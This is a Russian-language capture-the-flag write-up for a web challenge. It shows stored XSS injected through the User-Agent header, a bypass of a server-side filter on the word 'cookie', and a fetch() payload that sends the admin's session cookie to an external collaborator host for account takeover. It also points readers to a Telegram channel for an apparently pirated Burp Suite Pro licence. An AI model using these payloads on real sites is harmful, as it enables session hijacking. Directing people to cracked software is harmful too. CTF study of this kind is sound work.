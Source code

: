 
# 666
**level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035
Первое что мы видим - форма логин/регистрации, для этого нужно получить доступ к аккаунту админа.
Изучаем html код на наличие подсказок, скрытых функций и тд.
<!-- Send Post request with parameter newpassword .... -->
Отлично, какой-то скрытый функционал, позже мы к нему вернемся.
Исследуем далее.

Попробуем XSS payload:
````javascript 
<script>alert(1)</script>
Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!
Для этого напишем скрипт на python, он нам очень пригодится в будущем.
# Проведение атаки
````python 
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
````

У нас получилось внедрить свой код.
### Возможные пути кражи аккаунта через XSS:

1. **Кража cookies**
    
2. **Phishing**
   
4. **Манипуляции с DOM**
    
5. **Кража токенов аутентификации**

# способ 
Для данного способа вам потребуется ```Burp Suite Pro```. Почему именно PRO?
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "КУПИТЬ" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.

## Атака

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем alert();

````python 
import requests

payload = '<script>alert(document.cookie);</script>'
user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой
Все сработало, но вот alert'a нет, потому что на Codeby.games есть похожий таск, и автор данного решил чтобы все было не так просто, применить фильтрацию на серверной части на слово ```cookie```.
Мы это тоже обойдем, нужно просто немного **подумать**.
## Обход фильтрации
Попбробуем обойти фильтрацию с помощью cookie
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````

Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

Для понимания как это работает.

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+. Это создаст новую сессию и обновит окошко.

Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер.

````python 
import requests
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
````
Отправляем, ждем, пуллим.
Подставим значение PHPSESSID в наш браузер. 
